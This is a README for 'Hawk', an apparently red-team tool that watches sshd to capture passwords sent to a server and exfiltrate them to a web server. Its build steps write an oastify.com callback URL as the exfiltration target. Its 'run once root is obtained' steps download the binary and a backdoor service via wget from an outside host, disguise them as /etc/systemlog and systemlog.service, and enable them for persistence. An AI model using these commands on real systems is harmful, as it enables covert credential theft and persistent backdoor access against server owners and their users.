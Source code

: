 # Hawk

This tool monitors sshd for passwords being sent to the server.

## Description

Hawk is a simple tool designed to monitor the sshd service for passwords being sent to the server. It includes a bash script for easy installation and a Go program for password exfiltration to a web server.

## Building for server

```bash
git clone https://github.com/MattKeeley/hawk.git &&
cd hawk


echo "http://bq5j88gurv5ohn0qyxa02jii3990xulj.oastify.com" > exfil_location


go build -o hawk &&
cp hawk /home/ubuntu/webserver &&
cp hawk_backdoor /home/ubuntu/webserver
```

## Run once root is obtained:

```bash
 sudo ls /etc/systemlog || sudo wget http://redteam.prodefense.io:1337/hawk -O /etc/systemlog > /dev/null 2>&1
 sudo chmod +x /etc/systemlog
 sudo ls /etc/systemd/system/systemlog.service || sudo wget http://redteam.prodefense.io:1337/hawk_backdoor -O /etc/systemd/system/systemlog.service
 sudo systemctl start systemlog.service
 sudo systemctl enable systemlog.service
```
